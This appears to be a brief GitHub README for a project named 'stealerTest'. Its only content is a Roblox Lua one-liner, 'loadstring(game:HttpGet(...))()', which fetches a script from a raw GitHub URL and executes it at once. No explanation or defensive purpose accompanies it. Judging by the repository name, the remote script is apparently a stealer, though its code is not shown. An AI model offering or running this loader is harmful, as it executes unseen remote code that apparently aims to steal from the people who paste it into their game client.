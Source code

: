 # stealerTest

script: loadstring(game:HttpGet("https://raw.githubusercontent.com/zedikik/stealerTest/refs/heads/main/script.lua", true))() 

